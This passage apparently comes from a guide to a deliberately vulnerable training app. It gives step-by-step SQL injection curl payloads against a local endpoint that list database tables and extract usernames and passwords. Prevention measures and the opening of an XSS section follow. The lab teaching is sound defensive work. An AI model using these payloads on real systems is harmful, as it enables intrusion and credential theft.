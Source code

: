 **Explanation:** Get database version information to understand the target system and plan further attacks.

#### Step 5: Enumerate Tables
**Objective:** List all tables in the database

```bash
curl "http://localhost:5000/api/vuln/sqli?id=1 UNION SELECT table_name FROM information_schema.tables--"
```

**For specific database:**
```bash
curl "http://localhost:5000/api/vuln/sqli?id=1 UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database()--"
```

**Explanation:** Discover all available tables in the database for further exploitation.

#### Step 6: Extract Sensitive Data
**Objective:** Retrieve user credentials or sensitive information

```bash
curl "http://localhost:5000/api/vuln/sqli?id=1 UNION SELECT username,password FROM users--"
```

**Alternative payloads:**
```bash
curl "http://localhost:5000/api/vuln/sqli?id=1 UNION SELECT CONCAT(username,':',password) FROM users--"
```

**Explanation:** Extract actual sensitive data from discovered tables, such as user credentials.

### Prevention Measures
1. Use parameterized queries/prepared statements
2. Implement input validation and sanitization
3. Apply principle of least privilege to database accounts
4. Use stored procedures where appropriate
5. Enable SQL query logging and monitoring

---

## 2. Cross-Site Scripting (XSS)

### Vulnerability Description
XSS allows attackers to inject malicious scripts into web pages viewed by other users. These scripts execute in the victim's browser with the same privileges as the legitimate website.

### Impact
- Session hijacking and cookie theft
- Credential harvesting
- Website defacement
- Malware distribution
- Phishing attacks
